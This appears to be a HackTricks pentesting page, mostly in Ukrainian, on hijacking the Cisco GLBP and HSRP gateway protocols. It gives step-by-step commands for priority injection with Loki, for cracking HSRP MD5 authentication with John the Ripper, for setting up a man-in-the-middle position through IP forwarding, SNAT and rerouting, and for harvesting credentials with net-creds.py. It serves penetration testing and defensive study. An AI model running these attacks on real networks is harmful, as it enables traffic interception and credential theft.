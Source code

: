 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Overview

### Insights into FHRP

FHRP призначений для забезпечення надійності мережі шляхом об'єднання кількох маршрутизаторів в єдину віртуальну одиницю, що підвищує розподіл навантаження та стійкість до відмов. Cisco Systems представила відомі протоколи в цьому наборі, такі як GLBP та HSRP.

### GLBP Protocol Insights

Створений Cisco, GLBP функціонує на стеку TCP/IP, використовуючи UDP на порту 3222 для зв'язку. Маршрутизатори в групі GLBP обмінюються пакетами "hello" з інтервалом 3 секунди. Якщо маршрутизатор не надсилає ці пакети протягом 10 секунд, вважається, що він офлайн. Однак ці таймери не є фіксованими і можуть бути змінені.

### GLBP Operations and Load Distribution

GLBP виділяється тим, що дозволяє розподіл навантаження між маршрутизаторами, використовуючи одну віртуальну IP-адресу в поєднанні з кількома віртуальними MAC-адресами. У групі GLBP кожен маршрутизатор бере участь у пересиланні пакетів. На відміну від HSRP/VRRP, GLBP пропонує справжнє балансування навантаження через кілька механізмів:

- **Host-Dependent Load Balancing:** Підтримує постійне призначення AVF MAC-адреси хосту, що є важливим для стабільних конфігурацій NAT.
- **Round-Robin Load Balancing:** За замовчуванням, чергуючи призначення AVF MAC-адреси серед запитуючих хостів.
- **Weighted Round-Robin Load Balancing:** Розподіляє навантаження на основі попередньо визначених метрик "Ваги".

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** Основний маршрутизатор, відповідальний за розподіл MAC-адрес між сусідніми маршрутизаторами.
- **AVF (Active Virtual Forwarder):** Маршрутизатор, призначений для управління мережевим трафіком.
- **GLBP Priority:** Метрика, що визначає AVG, починаючи з значення за замовчуванням 100 і коливається між 1 і 255.
- **GLBP Weight:** Відображає поточне навантаження на маршрутизатор, яке можна регулювати вручну або через Object Tracking.
- **GLBP Virtual IP Address:** Служить за замовчуванням шлюзом мережі для всіх підключених пристроїв.

Для взаємодії GLBP використовує зарезервовану мультикаст-адресу 224.0.0.102 та UDP порт 3222. Маршрутизатори передають пакети "hello" з інтервалом 3 секунди і вважаються неопераційними, якщо пакет пропущено протягом 10 секунд.

### GLBP Attack Mechanism

Зловмисник може стати основним маршрутизатором, надіславши пакет GLBP з найвищим значенням пріоритету (255). Це може призвести до атак DoS або MITM, що дозволяє перехоплювати або перенаправляти трафік.

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali) може виконати атаку GLBP, інжектуючи пакет з пріоритетом і вагою, встановленими на 255. Попередні кроки атаки включають збір інформації, такої як віртуальна IP-адреса, наявність аутентифікації та значення пріоритету маршрутизаторів за допомогою інструментів, таких як Wireshark.

Attack Steps:

1. Перейти в режим прослуховування та увімкнути IP-ретрансляцію.
2. Визначити цільовий маршрутизатор і отримати його IP.
3. Згенерувати Gratuitous ARP.
4. Інжектувати шкідливий пакет GLBP, видаючи себе за AVG.
5. Призначити вторинну IP-адресу мережевому інтерфейсу зловмисника, відображаючи віртуальну IP-адресу GLBP.
6. Реалізувати SNAT для повної видимості трафіку.
7. Налаштувати маршрутизацію, щоб забезпечити безперервний доступ до Інтернету через оригінальний маршрутизатор AVG.

Дотримуючись цих кроків, зловмисник позиціонує себе як "людина посередині", здатну перехоплювати та аналізувати мережевий трафік, включаючи незашифровані або чутливі дані.

Для демонстрації ось необхідні фрагменти команд:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Моніторинг та перехоплення трафіку можна здійснити за допомогою net-creds.py або подібних інструментів для захоплення та аналізу даних, що проходять через скомпрометовану мережу.

### Пасивне пояснення захоплення HSRP з деталями команд

#### Огляд HSRP (Протокол гарячого резервування маршрутизаторів)

HSRP - це пропрієтарний протокол Cisco, призначений для резервування мережевих шлюзів. Він дозволяє налаштувати кілька фізичних маршрутизаторів в єдину логічну одиницю з спільною IP-адресою. Ця логічна одиниця управляється основним маршрутизатором, відповідальним за напрямок трафіку. На відміну від GLBP, який використовує метрики, такі як пріоритет і вага для балансування навантаження, HSRP покладається на один активний маршрутизатор для управління трафіком.

#### Ролі та термінологія в HSRP

- **HSRP Активний маршрутизатор**: Пристрій, що виконує роль шлюзу, управляючи потоком трафіку.
- **HSRP Резервний маршрутизатор**: Резервний маршрутизатор, готовий взяти на себе функції, якщо активний маршрутизатор вийде з ладу.
- **HSRP Група**: Набір маршрутизаторів, які співпрацюють для формування єдиного стійкого віртуального маршрутизатора.
- **HSRP MAC-адреса**: Віртуальна MAC-адреса, призначена логічному маршрутизатору в налаштуванні HSRP.
- **HSRP Віртуальна IP-адреса**: Віртуальна IP-адреса групи HSRP, що виконує роль шлюзу за замовчуванням для підключених пристроїв.

#### Версії HSRP

HSRP має дві версії: HSRPv1 та HSRPv2, які відрізняються, в основному, ємністю групи, використанням мультикастових IP-адрес та структурою віртуальної MAC-адреси. Протокол використовує специфічні мультикастові IP-адреси для обміну інформацією про послуги, з пакетами Hello, що надсилаються кожні 3 секунди. Маршрутизатор вважається неактивним, якщо протягом 10 секунд не отримано жодного пакета.

#### Механізм атаки HSRP

Атаки HSRP передбачають примусове захоплення ролі Активного маршрутизатора шляхом ін'єкції максимального значення пріоритету. Це може призвести до атаки Man-In-The-Middle (MITM). Основні кроки перед атакою включають збір даних про налаштування HSRP, що можна зробити за допомогою Wireshark для аналізу трафіку.

#### Кроки для обходу автентифікації HSRP

1. Збережіть мережевий трафік, що містить дані HSRP, у файл .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Витягніть MD5 хеші з файлу .pcap за допомогою hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Зламайте MD5 хеші за допомогою John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Виконання ін'єкції HSRP за допомогою Loki**

1. Запустіть Loki для виявлення HSRP оголошень.
2. Встановіть мережевий інтерфейс у проміскуїтний режим і увімкніть IP-пересилання.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Використовуйте Loki для націлювання на конкретний маршрутизатор, введіть зламаний пароль HSRP і виконайте необхідні налаштування для імітації Активного маршрутизатора.
4. Після отримання ролі Активного маршрутизатора налаштуйте свій мережевий інтерфейс і таблиці IP для перехоплення легітимного трафіку.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Змініть таблицю маршрутизації, щоб направити трафік через колишній Активний маршрутизатор.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Використовуйте net-creds.py або подібну утиліту для захоплення облікових даних з перехопленого трафіку.
```shell
sudo python2 net-creds.py -i eth0
```

Виконання цих кроків ставить атакуючого в позицію для перехоплення та маніпуляції трафіком, подібно до процедури захоплення GLBP. Це підкреслює вразливість у протоколах резервування, таких як HSRP, і необхідність надійних заходів безпеки.

## Посилання

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
